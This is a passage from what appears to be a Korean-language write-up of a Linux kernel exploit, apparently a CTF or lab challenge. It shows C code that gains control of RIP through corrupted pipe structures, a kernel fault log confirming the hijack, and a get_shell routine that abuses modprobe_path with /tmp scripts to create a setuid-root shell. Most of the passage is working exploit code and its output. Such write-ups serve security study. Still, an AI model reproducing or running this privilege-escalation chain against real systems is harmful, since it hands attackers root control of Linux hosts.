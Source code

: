 ```c
            exit(0);
        }
        if (close(pipe_fds[i][1]) < 0)
        {
            perror("rip_control: failed close pipe_fd\n");
            exit(0);
        }
    }
}

/* ... */

    rip_control(kernel_base_addr, leaked_heap_addr_kmalloc_1024 - 1024);
```

실행해 봤을때 다음과 같이 RIP가 변조된 것을 확인했다!

```bash

[    6.591922] general protection fault: 0000 [#1] SMP PTI
[    6.592353] CPU: 0 PID: 119 Comm: exploit Not tainted 5.13.18 #7
[    6.592706] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
[    6.593120] RIP: 0010:0x4141414141414141
[    6.593436] Code: Unable to access opcode bytes at RIP 0x4141414141414117.
[    6.593870] RSP: 0018:ffffc9000065fd60 EFLAGS: 00000282
[    6.594168] RAX: 4141414141414141 RBX: 0000000000000000 RCX: 0000000000000000
[    6.594519] RDX: 0000000000000000 RSI: ffff8881028e4400 RDI: ffff88810274b6c0
[    6.594879] RBP: ffffc9000065fd78 R08: 0000000000000000 R09: ffff888101310e10
[    6.595208] R10: 0000000000000008 R11: ffff888102960e10 R12: ffff88810274b6c0
[    6.595541] R13: ffff888101310e10 R14: ffff888101310e98 R15: ffff88810129ed80
[    6.595964] FS:  0000000000c1d3c0(0000) GS:ffff88842fc00000(0000) knlGS:0000000000000000
[    6.596367] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    6.596649] CR2: 0000000000c258e8 CR3: 00000001027b4000 CR4: 00000000001006f0
[    6.597120] Call Trace:
[    6.597583]  ? free_pipe_info+0x8b/0xd0

```

## **STEP 6. Stack pivot and ROP**

이제 RIP 를 바꿨으니, 적절하게 ROP를 해볼 차례이다. 일단 위에 RIP가 바뀐 상태에서 rsi 값이 우리가 corrupt 했던 주소와 일치하니, 이 포인터를 쓰는게 좋을 것이다. 

rsp와 rsi를 바꿀 수 있는 가젯을 찾고, 그것을 이용해 stack pivot 한 뒤, modprobe_path를 덮어 LPE를 할것이다. 

```c

void get_shell()
{
    signal(SIGSEGV, SIG_DFL);
    system("echo "\"#!/bin/sh\\nsetuidgid 0 /bin/sh\" > /tmp/shell");
    system("chmod 777 /tmp/shell");
    system("chmod 777 /tmp/x");
    system("echo \"#!/bin/sh\\nchown root:root /tmp/shell\nchmod 4777 /tmp/shell\" > /tmp/x");
    system("echo -e \"\\xff\\xff\\xff\\xff\" > /tmp/trigger");
    system("chmod 777 /tmp/trigger");
    system("/tmp/trigger");
    system("echo \"get shell\"");
    sleep(1);
    system("/tmp/shell");
}

/* ... */

void rip_control(uint64_t kernel_base_addr, uint64_t fake_chunk_address)
```